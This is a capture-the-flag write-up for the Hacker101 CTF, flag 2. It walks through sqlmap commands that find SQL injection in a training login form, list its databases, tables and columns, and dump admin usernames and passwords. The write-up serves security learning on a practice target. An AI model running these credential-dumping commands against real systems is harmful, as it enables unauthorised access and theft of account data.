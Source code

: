 # Hacker101-CTF FLAG 2

We want to try and obtain the username and password to log in. In the previous flag, we noticed that we could get through without the username, but what about the password?

In this case, we already know that the input fields are susceptible to SQL Injection (SQLI). So, maybe we can exploit it using sqlmap.

First of all, I'm going to go ahead and try to obtain the databases if there is any vulnerability.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs
```

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

I'm getting this message:

[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

I'm going to try and increase the level value to 2.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2
```

Looks like I'm getting more juice this time!

[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y

I'm getting this message as well. I'm going to go ahead and try to exploit only the username field.

[INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

Finally got some results! I got all the databases. I'm going to take a look into the level2 database.

![sqlmap_databases](sqlmap_databases.png)

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables
```

![sqlmap_databases](sqlmap_tables.png)

Let's get into the admins table and see its columns.

![sqlmap_databases](sqlmap_columns.png)

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns
```

Now let's have a look at the usernames! Dump it!

![sqlmap_databases](sqlmap_usernames.png)

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump
```

Now let's retrieve the password.

![sqlmap_databases](sqlmap_databases.png)

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump
```
![sqlmap_databases](sqlmap_password.png)

Now lets try log in. Got it! We have the last flag


